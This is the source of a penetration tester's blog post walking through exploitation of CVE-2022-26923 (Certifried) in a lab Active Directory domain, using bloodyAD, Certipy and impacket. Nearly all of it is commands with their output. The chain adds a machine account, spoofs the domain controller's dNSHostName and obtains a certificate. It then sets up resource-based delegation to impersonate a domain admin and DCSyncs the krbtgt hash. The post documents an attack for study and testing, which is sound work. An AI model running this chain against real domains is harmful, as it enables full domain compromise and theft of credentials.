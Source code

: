 ```yaml
---
layout: post
title:  "bloodyAD and CVE-2022-26923"
author: [soka](https://twitter.com/pentest_soka/)
date:   2022-05-11 18:12:00 +0200
categories: ad privesc
tags: ad privesc bloodyad kerberos authentication
---
```

A new ADCS privesc was released: CVE-2022-26923 with this [blogpost](https://research.ifcr.dk/certifried-active-directory-domain-privilege-escalation-cve-2022-26923-9e098fe298f4) after Microsoft patched it.
Here is an example on how to exploit this vulnerability with [bloodyAD](https://github.com/CravateRouge/bloodyAD) and PKINIT not supported from Linux.

# Linux

We need to own a computer, either we pwned one or we can create one if `ms-DS-MachineAccountQuota`>0:

{% highlight bash %}
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 getObjectAttributes  'DC=crashlab,DC=local' ms-DS-MachineAccountQuota                     
{
    "ms-DS-MachineAccountQuota": 10
}
{% endhighlight %}

We create a Computer object `cve` in the LDAP:
{% highlight bash %}
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 addComputer cve 'CVEPassword1234*'
Opening domain CRASHLAB...
Successfully added machine account cve$ with password CVEPassword1234*.

{% endhighlight %}

Then we set the attribute `dNSHostName` (empty when we created the object) to match the Domain Controller DNS Hostname: `CRASHDC.crashlab.local`.

{% highlight bash %}
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 setAttribute 'CN=cve,CN=Computers,DC=crashlab,DC=local' dNSHostName '["CRASHDC.crashlab.local"]'
dNSHostName set successfully
{% endhighlight %}

To check if the attribute has been correctly set:
{% highlight bash %}
> python bloodyAD.py -d crashlab.local -u testuser -p 'totoTOTOtoto1234*' --host 10.100.10.12 getObjectAttributes 'CN=cve,CN=Computers,DC=crashlab,DC=local' dNSHostName                  
{
    "dNSHostName": "CRASHDC.crashlab.local"
}
{% endhighlight %}

Now we can use [Certipy](https://github.com/ly4k/Certipy) to request a certificate for the computer `cve`:
{% highlight bash %}
# 10.100.10.13 is the ADCS server
> certipy req 'crashlab.local/cve$:CVEPassword1234*@10.100.10.13' -template Machine -dc-ip 10.100.10.12 -ca crashlab-ADCS-CA
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Requesting certificate
[*] Successfully requested certificate
[*] Request ID is 12
[*] Got certificate with DNS Host Name 'CRASHDC.crashlab.local'
[*] Saved certificate and private key to 'crashdc.pfx'

{% endhighlight %}

Now we'll try to get a TGT using [Certipy](https://github.com/ly4k/Certipy) with the certificate requested above:
{% highlight bash %}
> certipy auth -pfx ./crashdc.pfx -dc-ip 10.100.10.12
Certipy v3.0.0 - by Oliver Lyak (ly4k)

[*] Using principal: crashdc$@crashlab.local
[*] Trying to get TGT...
[-] Got error while trying to request TGT: Kerberos SessionError: KDC_ERR_PADATA_TYPE_NOSUPP(KDC has no support for padata type)
{% endhighlight %}

PKINIT doesn't seem to work on this AD, let's try RBCD technique with [bloodyAD](https://github.com/CravateRouge/bloodyAD) and its certificate authentication feature:
{% highlight bash %}
> openssl pkcs12 -in crashdc.pfx -out crashdc.pem -nodes
> python bloodyAD.py -d crashlab.local  -c ":crashdc.pem" -u 'cve$' --host 10.100.10.12 setRbcd 'CVE$' 'CRASHDC$'
[+] CVE$ SID is: S-1-5-21-1945936656-2616711065-1665664270-1134             
[+] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity correctly set        
[+] Delegation rights modified successfully!                                                                           
CVE$ can now impersonate users on CRASHDC$ via S4U2Proxy
{% endhighlight %}

Delegation rights are set up, we can now use [impacket](https://github.com/SecureAuthCorp/impacket) `getST.py` to impersonate a Domain admin (`emacron` in our case) on CRASHDC$ and fetch a TGT: 
{% highlight bash %}
> getST.py -spn LDAP/CRASHDC.CRASHLAB.LOCAL -impersonate emacron -dc-ip 10.100.10.12 'crashlab.local/cve$:CVEPassword1234*'                 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation                                                               
                                                                                                                       
[*] Getting TGT for user                                                                                               
[*] Impersonating emacron                                                                                              
[*]     Requesting S4U2self                                                                                            
[*]     Requesting S4U2Proxy
[*] Saving ticket in emacron.ccache

> cp emacron.ccache /tmp/
> export KRB5CCNAME=/tmp/emacron.ccache
{% endhighlight %}

Finally we'll use [impacket](https://github.com/SecureAuthCorp/impacket) `secretsdump.py` to perform a DCSync with the exported TGT:
{% highlight bash %}

> secretsdump.py -user-status -just-dc-ntlm -just-dc-user krbtgt 'crashlab.local/emacron@crashdc.crashlab.local' -k -no-pass -dc-ip 10.100.10.12 -target-ip 10.100.10.12 
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:492850f62466ef2bd1f4a56f112e01f1::: (status=Disabled)
[*] Cleaning up...
{% endhighlight %}
